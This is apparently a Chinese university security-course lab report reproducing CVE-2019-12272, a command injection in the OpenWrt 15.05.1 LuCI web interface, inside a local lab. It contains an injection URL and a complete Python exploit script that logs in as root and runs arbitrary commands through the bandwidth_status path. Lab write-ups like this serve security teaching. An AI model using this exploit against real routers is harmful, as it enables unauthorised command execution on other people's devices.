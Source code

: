 # 第四章 移动通信安全概述实验

## 实验要求

- 复现 CVE-2019-1227漏洞

- 编写一个漏洞利用程序

## 实验环境

- Kali

- OpenWrt 15.05.1

## 实验过程

### 环境搭建

- 下载安装存在该漏洞的 `OpenWrt 15.05.1` 的镜像版本,参考[第一章实验的方法](https://github.com/CUCCS/2021-mis-public-shiancuc/blob/mis_chap0x01/chap0x01/mis_chap0x01_report.md)搭建，在此不多赘述。

---

### 漏洞复现

- 先使用管理员账号登录 `LuCI`

    ![1.1LuCI](imgs/1.1LuCI.PNG)

- 在漏洞复现前 `http://192.168.56.3/cmd.txt` 无法显示

    ![1.2BeforeBug](imgs/1.2BeforeBug.PNG)

- 使用浏览器访问 `http://192.168.56.3/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)` 触发漏洞

    ![1.3WebBug](imgs/1.3WebBug.PNG)

    ![1.4WebBug](imgs/1.4WebBug.PNG)

- 再次访问 `http://192.168.56.3/cmd.txt`

    ![1.5CmdTxt](imgs/1.5CmdTxt.PNG)

- 漏洞复现成功

---

### 漏洞利用代码

- 通过 `Chrome` 浏览器开发者工具的 `Copy as curl` 功能，将漏洞复现请求复制为 `curl 命令`

    ![2.1cURL](imgs/2.1cURL.PNG)

- 通过第三方网站将 `curl 命令`转换为 `Python requests` 代码

    ![2.2curlTransform](imgs/2.2curlTransform.PNG)

- 再通过同样的方式将登录信息复制为 `curl 命令`

    ![2.3lucicurl](imgs/2.3lucicurl.PNG)


- 代码编写

    ```python
    import requests
    from urllib.parse import urlparse
    import sys

    from requests.models import Response

    class CVE_2019_12272:

        def __init__(self):
            self.host = '192.168.56.3'
            self.uname = 'root'
            self.upass = '******'#LuCI管理员帐号的密码
            self.stok = ''
            self.cmd = ''
            self.cookies = ''
            self.headers = {
                'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
                'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
                'Accept-Language': 'en-US,en;q=0.5',
                'Referer': 'http://{host}/cgi-bin/luci',
                'Content-Type': 'application/x-www-form-urlencoded',
                'Connection': 'keep-alive',
                'Upgrade-Insecure-Requests': '1',
            }


        def login(self):
            data = {
                'luci_username': '{uname}'.format(uname=self.uname),
                'luci_password': '{upass}'.format(upass=self.upass)
            }
            response = requests.post('http://{host}/cgi-bin/luci'.format(host=self.host), headers=self.headers, cookies=self.cookies, data=data, allow_redirects=False)
            location = response.headers['Location']
            self.stok = urlparse(location).params
            self.cookies = response.cookies

        def shell(self, cmd):
            url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0$({cmd}%3ecmd.txt)'.format(host=self.host, stok=self.stok, cmd=cmd)
            response = requests.get(url, headers=self.headers, cookies=self.cookies)

        def view(self):
            url = 'http://{host}/cmd.txt'.format(host=self.host)
            response = requests.get(url, headers=self.headers)
            print(response.text)

    if __name__ == "__main__":
        exp = CVE_2019_12272()
        exp.login()
        exp.shell(sys.argv[1])
        exp.view()
    ```

- 在命令行中输入`python exp.py id`

    ![2.4IdCmd](imgs/2.4IdCmd.PNG)

- 网页上访问 `http://192.168.56.3/cmd.txt` ，漏洞已经实现

    ![2.5IdCmd](imgs/2.5IdCmd.PNG)


## 实验问题

- 只是照着老师课上讲的实现了代码，没有自己做改进

## 参考资料

- [CVE_2019_12272](https://c4pr1c3.github.io/cuc-mis/chap0x04/cve-2019-12272.html)

- [移动互联网安全（2021）](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)